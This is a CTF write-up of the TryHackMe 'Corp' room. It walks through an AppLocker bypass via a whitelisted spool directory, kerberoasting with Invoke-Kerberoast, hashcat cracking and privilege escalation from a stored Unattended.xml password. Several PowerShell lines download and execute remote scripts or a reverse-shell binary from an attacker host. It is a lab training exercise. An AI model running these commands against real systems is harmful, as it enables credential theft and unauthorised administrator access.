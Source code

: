 ```yaml
---

title: Corp
published: true
---
```


Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

[https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)

![0xskar](/assets/hacking-group.jpg)

* * *

## Task 1 - Deploy the Windows machine 

In this room we will learn the following:

- Windows Forensics
- Basics of kerberoasting
- AV Evading
- Applocker

* * * 

## Task 2 - Bypassing Applocker 

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

##   Answer the questions below

There are many ways to bypass AppLocker.

**If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.**

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``Invoke-WebRequest http://10.x.x.x/reverse.exe``

Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

**Access the file and and obtain the flag.**

- ``Get-Content "C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"``

* * * 

## Task 3 - Kerberoasting 

Kerberos is the authentication system for Windows and Active Directory networks. In this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash.

##   Answer the questions below

Lets first enumerate Windows. If we run ``setspn -T Corp -Q */*`` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

**Running that command, we find an existing SPN. What user is that for?**

- fela

![0xskar](/assets/corp01.png)

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.

- ``iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')``

Now lets load this into memory: ``Invoke-Kerberoast -OutputFormat hashcat |fl``

Or better yet

- ``Invoke-Kerberoast -OutputFormat hashcat | Select-Object -ExpandProperty Hash | Out-File -FilePath "C:\Users\dark\Desktop\hash.txt"``

You should get a SPN ticket.

![0xskar](/assets/corp02.png)

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

- ``hashcat -m 13100 -a 0 hash.txt /usr/share/seclists/Passwords/rockyou.txt --force``

**Crack the hash. What is the users password in plain text?**

![0xskar](/assets/corp03.png)

**Login as this user. What is his flag?**

![0xskar](/assets/corp04.png)

* * * 

## Task 4 - Privilege Escalation 

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

##   Answer the questions below

We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

- ``iex(New-Object Net.WebClient).DownloadString('http://10.x.x.x/PowerUp.ps1')``

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." [Read more about it here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

**What is the decoded password?**

- ``base64 -d adminhash.txt``

**Now we have the Administrator's password, login as them and obtain the last flag.**

![0xskar](/assets/corp05.png)

* * * 